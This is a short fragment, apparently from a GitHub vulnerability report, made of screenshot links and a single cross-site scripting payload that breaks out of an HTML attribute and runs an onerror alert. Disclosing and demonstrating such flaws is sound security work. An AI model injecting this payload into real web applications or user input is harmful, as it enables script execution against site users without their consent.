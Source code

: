 <img width=800px src="https://user-images.githubusercontent.com/92881216/222703680-66db194f-d801-455d-a1a3-9a3f1017f9fd.png" />


> Payload : `"><img src=1 onerror=alert(1) />`

<img width=800px src="https://user-images.githubusercontent.com/92881216/222703874-a4d061fc-be2d-4dfc-a67c-f12f01e840e1.png" />
<img width=800px src="https://user-images.githubusercontent.com/92881216/222704208-7e8303d6-9725-485e-a54b-39dc5f92d3b3.png" />

